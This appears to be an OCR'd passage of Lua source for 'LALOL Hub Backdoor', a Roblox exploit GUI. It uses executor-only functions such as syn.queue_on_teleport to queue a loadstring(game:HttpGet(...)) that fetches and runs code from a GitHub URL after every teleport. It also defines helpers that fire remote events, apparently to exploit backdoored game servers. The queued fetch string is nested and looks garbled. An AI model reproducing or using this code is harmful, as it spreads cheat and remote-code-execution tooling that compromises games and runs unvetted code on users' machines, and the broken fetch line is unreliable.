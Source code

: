 	textbox=script.Parent
	textbox.InputChanged:Connect(function()
		if textbox.Text~='' then
			textbox.TextTransparency=1
			return
		end
		textbox.TextTransparency=0
	end)
end;
task.spawn(C_12);
-- StarterGui.LALOL Hub Backdoor.LocalScript
local function C_20()
local script = G2L["20"];
	queueteleport = (syn and syn.queue_on_teleport) or queue_on_teleport or (fluxus and fluxus.queue_on_teleport)
	if queueteleport then
		queueteleport("loadstring(game:HttpGet('loadstring(game:HttpGet('https://raw.githubusercontent.com/PumpGui/Guipumpking/refs/heads/main/README.md/script'))()'))()")
	end
	
	GUI=script.Parent.Frame
	
	alphabet={'a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z'}
	
	backdoor=nil
	HttpService=game:GetService("HttpService")
	
	function debug(text, lvl)
		local func=print
		if lvl==1 then func=print end
		if lvl==2 then func=error end
		if lvl==3 then func=warn end
		func('LALOL Hub Backdoor: '..text)
	end
	
	function runRemote(remote, data, data2)
	
		if remote:IsA('RemoteEvent') then
			remote:FireServer(data)
		elseif remote:IsA('RemoteFunction') then
			spawn(function() remote:InvokeServer(data) end)
		end
	
	end
	
	function makeVisible(folder, state)
		for i,v in folder:GetDescendants() do
			if v:IsA('Frame') then 
				v.Visible=state
			end
		end
	end
	